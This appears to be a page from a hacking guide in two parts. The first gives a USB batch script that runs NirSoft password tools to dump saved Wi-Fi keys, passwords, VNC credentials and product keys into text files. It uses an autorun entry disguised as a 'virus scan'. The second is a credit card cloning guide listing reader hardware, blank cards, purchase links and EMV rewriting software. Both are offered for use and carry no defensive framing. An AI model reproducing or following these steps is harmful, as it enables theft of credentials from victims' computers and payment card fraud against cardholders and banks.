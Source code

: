 start WirelessKeyView.exe /stext WirelessKeyView.txt
start BulletsPassView.exe /stext BulletsPassView.txt
start VNCPassView.exe /stext VNCPassView.txt
start OpenedFilesView.exe /stext OpenedFilesView.txt
start ProduKey.exe /stext ProduKey.txt
start USBDeview.exe /stext USBDeview.txt
save this as LAUNCH.bat
copy the autorun and launch file to your USB

go to http://www.nirsoft.net/ and download the programs named in step 2

extract the files you downloaded to your desktop and copy all the .exe files to your USB
remove and re-insert your USB

click on the option perform a virus scan
(this is an example, if you want it to say something else go to the autorun file and change it 😉 )
go to my computer—-> USB DRIVE and open it
you will now see some text files, if you open them you will see usernames and passwords
NOTICE: this only recovers passwords that have once been saved on your computer!


### #cc-cloner

Clone cards Guide 💰💻

Cloning, also called skimming, is the copying of credit or debit card info to a new card. The card information is stolen at the credit card terminal using software or electronic device and copied onto a new card. With cloning the physical card isn't stolen, merely copied.


*Hardware You Need*

- MSR
- OMNIKEY 3021
- JCOB BLANKS
- A MARKER

*Links - The Cheapest Ones*

MSR - https://www.newegg.com/card-device-msr605x-magstripe-reader/p/2BT-0002-00009?item=9SIA3G330N4184&source=region&nm_mc=knc-googlemkp-pc&cm_mmc=knc-googlemkp-pc-_-pla-msr606-_-pos+-+credit+card+readers-_-9SIA3G330N4184&gclsrc=ds

Omnikey - https://www.walmart.com/ip/OMNIKEY-3021-USB/646907578?wmlspartner=wlpa&selectedSellerId=6871

Jcob Blanks - https://www.webstaurantstore.com/turbochef-103655-blank-smart-card/532103655.html?utm_source=google&utm_medium=cpc&utm_campaign=GoogleShopping

*Software*

The Software Needed is

X2 - http://x2emv.com/emv-softwares/emv-software

or

EMV Studios - You just need is a card data template (which can come from your real bank card), a smart card reader, and a javacard card.If you modify some data in the card and rewrite the card, the software will use the data you changed to recalculate the encrypted data, such as SDA,DDA,ARQC, etc.
